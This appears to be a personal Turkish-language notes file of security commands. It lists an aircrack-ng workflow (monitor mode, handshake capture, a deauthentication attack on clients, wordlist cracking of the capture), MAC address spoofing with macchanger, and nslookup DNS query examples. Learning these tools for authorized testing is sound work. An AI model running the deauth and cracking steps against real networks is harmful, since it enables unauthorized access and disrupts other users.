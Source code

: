 # Command

wifi sec
airmon-ng start wlan0

airodump-ng wlan0mon

airodump-ng .....--bssid ....--chanel wlan0mon

#(cap dosyası yazalım istiyoruz)

airodump-ng .....--bssid ....--chanel wlan0mon -w/home/user/test 
(handshake yakalasın diye)

aireplay-ng --deauth 10 -a(bssid yani mac gir).. -c (client sta).. wlan0mon
^(gizli wifi adını çıkarma )

essid de isimi gösteriyor

cap dosyasını kullanma şekli de 
aircrack-ng ...capdosyası -w/home/user/wordlist.txt



mac adresi değiştirme (ether=mac adres)


Home | MAC Vendor Lookup Tool & API | MACVendors.com

ifconfig     
macchanger -s eth0
macchanger -m ..... (istediğin mac adresini .. gir ve yenisi o olsun)
macchanger -r (random bir mac ataması yapar)

VirusTotal - Home

Process Explorer - Sysinternals

Find out what files, registry keys and other objects processes have open, which DLLs they have loaded, and more.learn.microsoft.

SSL Checker Main page

IP Address Lookup | Geolocation (iplocation.net)

NSLOOKUP
Temel DNS Sorgusu

Bu komut, belirtilen domain_adı için DNS sorgusu yapar ve ilgili IP adresini döndürür. Örneğin, google.com için:

nslookup domain_adı
ÖR:
nslookup google.com

2. Belirli DNS Sunucusunu Kullanma

Bu komut, belirtilen dns_sunucu_adı'ni kullanarak domain_adı için DNS sorgusu yapar. Örneğin, google.com için Google'ın DNS sunucusu 8.8.8.8'i kullanarak:

nslookup domain_adı dns_sunucu_adı
ÖR:
nslookup google.com 8.8.8.8

3. PTR Kaydını Çözme (IP adresinden alan adını bulma)
   
Bu komut, belirtilen ip_adresi için PTR (Pointer) kaydını sorgular ve ilgili alan adını döndürür. Örneğin, 8.8.8.8 IP adresi için:

nslookup -type=ptr ip_adresi
ÖR:
nslookup -type=ptr 8.8.8.8

5. MX Kaydını Çözme (Mail Sunucusu Bilgisi)
   
Bu komut, belirtilen domain_adı için MX (Mail Exchange) kaydını sorgular ve ilgili mail sunucularının bilgisini döndürür. Örneğin, google.com için:

nslookup -type=mx domain_adı
ÖR:
nslookup -type=mx google.com
